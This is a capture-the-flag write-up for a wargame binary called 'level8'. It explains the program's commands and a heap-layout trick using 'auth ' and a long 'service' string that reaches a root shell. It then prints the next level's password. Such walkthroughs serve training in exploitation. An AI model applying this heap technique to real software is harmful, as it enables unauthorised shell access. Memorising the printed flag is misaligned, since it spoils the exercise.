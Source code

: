 # level8

In this level, all we have to do is analyse the code...
```bash
> ./level8
(nil), (nil)
<text-input>
(nil), (nil)
test
(nil), (nil)
CTRL-D
```

Ok so let's disassemble the code with gdb and trying to understand all (see source).

If we send `auth ` (be careful to the space after auth), this create a malloc of size 4 (VAR_2)

If we send `reset`, this free the VAR_2

If we send `service` (or `servic`), this duplicate all the text after `service` in VAR_1 (if `service012345` -> VAR_1 = `012345`).

If we send `login`:
- If VAR_2 (created by `auth `) + 32 is `0`, write `Password:` and continue.
- Else, open `/bin/sh` <- this is the goal.

# Exploit

The VAR_2 + 32 char is undefined at start but if we create a new string with service, this string will be after VAR_2 in memory.

So all we have to do is to create the VAR_2, then create a VAR_1 (with more than 16 char to create a 24 oct allocation).

```bash
> ./level8
(nil), (nil)
auth    ; dont forget the space after auth: "auth "
0x804a008, (nil)
service0123456701234567  ; there is 16 char + '\n' so 17 in total
0x804a008, 0x804a018
login
/bin/sh: 1: nonzero_return: not found
\[\e[32m\]\u\[\e[m\] \[\e[33m\]\w\[\e[m\] \[\e[31m\]\[\e[m\]$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

```
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
